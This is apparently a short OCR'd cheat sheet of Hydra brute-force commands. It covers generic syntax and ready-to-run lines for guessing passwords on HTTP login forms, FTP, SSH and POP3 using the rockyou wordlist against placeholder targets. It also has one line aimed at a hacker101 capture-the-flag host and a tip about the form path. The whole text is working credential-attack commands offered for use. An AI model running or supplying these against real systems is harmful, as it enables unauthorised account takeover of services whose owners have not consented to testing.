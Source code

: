 hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
hydra -L <usernames> -P <passwords>

[http]  hydra -l admin -P /usr/share/wordlists/rockyou.txt target.ip -s 80 http-post-form "/login.php:username=admin&password=^PASS^:Invalid Password!"
        hydra -l phillips -P /usr/share/wordlists/rockyou.txt target.ip  http-form-get '/login-get/index.php:username=^USER^&password=^PASS^:Login failed!'
[ftp]   hydra -L username.txt -P password.txt target.ip ftp -s 21
[ssh]   hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target.ip -o hydra.ssh
[pop3]  hydra -I -L usernames.txt -P passwords.txt pop3://target.ip -t 64 -o hydra.pop3



hydra -v -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -p password1 ef26734dbe646949c019bdd1c731d5b3.ctf.hacker101.com -S -t 16 http-post-form '/secure-login/:username=^USER^&password=^PASS^:F=Invalid Username'

the / after '/secure-login is very important
